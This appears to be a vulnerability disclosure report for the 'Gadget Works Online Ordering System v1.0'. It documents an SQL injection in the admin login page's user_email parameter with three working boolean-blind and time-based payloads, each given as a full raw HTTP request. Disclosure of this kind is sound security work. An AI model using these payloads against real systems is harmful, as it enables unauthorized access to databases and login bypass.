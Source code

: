 # Gadget Works Online Ordering System v1.0 has SQL injection

BUG_Author: heitaoa999

Vulnerability File: /philosophy/admin/login.php

POST parameter 'user_email' exists SQL injection vulnerability

Payload1:user_email=a' rlike (select (case when (666=666) then 0x61 else 0x28 end))-- b&user_pass=b&btnLogin=

```
POST /philosophy/admin/login.php HTTP/1.1
Host: localhost
Content-Length: 100
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/philosophy/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=erriivuolh0rb2ucknp2nmpolf
Connection: close

user_email=a' rlike (select (case when (666=666) then 0x61 else 0x28 end))-- b&user_pass=b&btnLogin=
```

boolean-based blind return correct

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/sql1.png)

Payload2:user_email=a' rlike (select (case when (666=555) then 0x61 else 0x28 end))-- b&user_pass=b&btnLogin=

```
POST /philosophy/admin/login.php HTTP/1.1
Host: localhost
Content-Length: 100
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/philosophy/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=erriivuolh0rb2ucknp2nmpolf
Connection: close

user_email=a' rlike (select (case when (666=555) then 0x61 else 0x28 end))-- b&user_pass=b&btnLogin=
```

boolean-based blind return an error

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/sql2.png)

Payload3:user_email=a' and (select 1 from (select(sleep(20)))a)-- a&user_pass=b&btnLogin=

```
POST /philosophy/admin/login.php HTTP/1.1
Host: localhost
Content-Length: 80
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/philosophy/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=erriivuolh0rb2ucknp2nmpolf
Connection: close

user_email=a' and (select 1 from (select(sleep(20)))a)-- a&user_pass=b&btnLogin=
```

The server response time is 20 seconds

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/sql3.png)
